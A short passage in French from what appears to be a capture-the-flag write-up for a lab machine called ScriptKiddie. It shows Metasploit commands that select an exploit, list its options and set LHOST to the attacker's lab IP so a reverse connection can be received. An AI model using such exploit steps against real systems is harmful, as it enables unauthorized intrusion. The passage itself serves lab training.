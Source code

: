 Pour l'utiliser, nous pouvons utiliser la commande `use 0`.

> use 0
>

Regardons les prérequis pour utiliser cet exploit.

> options

![Screenshot_20210405_162852](ScriptKiddie.assets/Screenshot_20210405_162852.png)

Ils nous demandent de mettre une ip qui est dans le même réseau que la cible, ainsi que le port que nous allons ouvrir pour recevoir la connexion.



Dans mon cas, je dois modifier l'ip, car elle n'est pas dans le même réseau que la cible.

> set LHOST 10.10.14.16
>

![Screenshot_20210405_163226](ScriptKiddie.assets/Screenshot_20210405_163226.png)
